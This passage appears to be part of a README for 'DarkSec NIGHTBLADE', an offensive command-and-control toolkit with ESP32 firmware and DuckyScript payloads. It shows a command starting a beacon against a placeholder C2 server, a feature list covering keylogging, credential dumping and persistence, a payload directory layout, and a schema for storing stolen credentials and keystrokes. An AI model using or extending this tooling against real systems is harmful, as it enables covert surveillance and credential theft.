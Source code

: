```python
# Advanced beacon with all features
python advanced_beacon.py --server http://c2.example.com:8443
```

Features:
- Auto-registration
- Command execution
- Screenshot capture
- Keylogging
- Credential dumping
- Persistence installation
- Network reconnaissance

---

## 🛠️ Architecture

### System Components

```
DarkSec NIGHTBLADE
├── installer_gui.py           # Main GUI application
├── c2_server.py              # C2 server (standard edition)
├── c2_server_enhanced.py     # C2 server (elite edition - 12 features)
├── duckyscript_converter.py  # DuckyScript compiler
├── payloads/                 # Payload library
│   ├── info_gathering/
│   ├── persistence/
│   ├── exfiltration/
│   └── credential_harvest/
├── firmware/                 # ESP32 firmware binaries
└── encryption_key.bin        # C2 encryption key (auto-generated)
```

### Database Schema

```sql
-- 15+ persistent tables for complete operation tracking
beacons           # Beacon tracking with tags, groups, health status
commands          # Command queue with operator attribution
exfil_data        # Encrypted/compressed exfiltrated data
screenshots       # Captured screenshots
keylogs           # Keystroke recordings
credentials       # Harvested credentials by source
sessions          # Interactive WebSocket shell sessions
tasks             # Scheduled operations
auto_tasks        # NEW: Auto-tasks on beacon registration
api_keys          # Authentication with roles & permissions
files             # File browser cache
beacon_groups     # NEW: Beacon grouping system
listener_profiles # NEW: Multiple listener configurations
audit_log         # NEW: Complete operation audit trail
```

---